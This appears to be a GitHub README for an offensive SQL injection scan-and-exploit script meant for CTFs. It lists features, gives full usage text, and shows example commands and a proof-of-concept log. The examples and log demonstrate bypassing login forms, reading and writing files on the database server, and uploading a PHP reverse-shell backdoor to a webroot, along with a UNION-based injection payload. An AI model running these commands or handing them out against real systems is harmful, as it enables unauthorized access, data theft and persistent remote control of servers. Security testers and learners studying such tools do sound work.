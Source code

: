 
#  ____   ____   ____   ____ _     _       _              _ 
# |  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
# | |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
# |  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
# |_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
#        \____/ \_\/_/                                      

##### Find all scripts in: https://github.com/roughiz


##### SQLI script by R0()Gh1z
# -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

# sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctfs.

It scan if a parameter is injectable , and also find how to exploit it.

## Functions:

##### . Scan
##### . Bypass a blind authentication Form with return message (true,false)
##### . Found an injection
##### . Define a startsWith of an injection
##### . Use of proxy to debug
##### . Read a file from the DBMS
##### . Write a file into the DBMS
##### . Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-ns BYPASS] [-s FOUND] [-l LEVEL]
                     [--prefix PREFIX] [--proxy] [-v]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -ns BYPASS, --not-string BYPASS
                        Define the failed login message. Script try sqli until
                        this string is not in the request output
  -s FOUND, --string FOUND
                        Define the successfully login message. Script try sqli
                        until the string is in the request output
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  --prefix PREFIX       Define a prefix variable for the sqli. Per example "1
                        "
  --proxy               Use a default proxy at "127.0.0.1:8080". set to False
                        by default
  -v, --verbose         Define verbose output. set to False by default
```

## Examples

#### Bypass a form authetication returning a text when false

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -ns "Your Login Name or Password is invalid" 
```

#### Bypass a form authetication returning a text when true

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -s "Success" 
```

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Found an injection with verbose mode and also using a local proxy

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId -v --proxy
```
#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php
```

## Poc

```
$ sql_injection -u http://box/view_product.php -H "X-Forwarded-For:192.168.1.2 Agent:roughiz" --data "productId=1" -p productId  --file-write test.txt --file-dest "C:/Inetpub/wwwroot/uploads/test.txt" --file-read "/Inetpub/wwwroot/cx3iSfa2OwsY.php"  --upload-revshell ./shell_cmd.php

[SQLI] The parameter "productId" is injectable
[SQLI] Blind injection use code error to analyse injection
[Exploit] Found a sqli injection: -8408 UNION ALL SELECT CONCAT(0x716a6b6a54,0x57795a66454142,0x5562626b71)#
[Exploit] The Head: (-8408 UNION ALL SELECT  ) and the comment char: (#)
[Upload] Upload a file through sqli
Do you want confirmation that the file 'test.txt' has been successfully written on the backend file system ('C:/Inetpub/wwwroot/uploads/test.txt')?. 'No' by default: [y/n] y
[Upload] File has been successfully written on the backend 
[Upload] File verification: the local file "test.txt" and the remote file "C:/Inetpub/wwwroot/uploads/test.txt" have the same size (74 B)
[Read] The file "/Inetpub/wwwroot/cx3iSfa2OwsY.php" exists and it has the size (74 B)
[Read] File readed successfully, it will be saved at he path: "/tmp/lJ6iu9Kp__Inetpub_wwwroot_cx3iSfa2OwsY.php" 
[Reverse Shell Upload] Upload a reverse shell file through sqli
[INFO] Going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
[Reverse Shell Upload] Define destination directory path
what do you want to use for writable directory?
[1] Define a locations(s) path(s)
[2] Brute force search (default)
> 2
[Reverse Shell Upload] Define the DBMS server architecture
Choose the DBMS architecture?
[1] Windows
[2] Linux
[3] All (default)
> 1
[Reverse Shell Upload] The script found 1 url(s)
[URL] Try your reverse shell in the url: http://box/adbVypBUZZ9n.php uploaded in the DBMS path "/Inetpub/wwwroot/adbVypBUZZ9n.php"
```

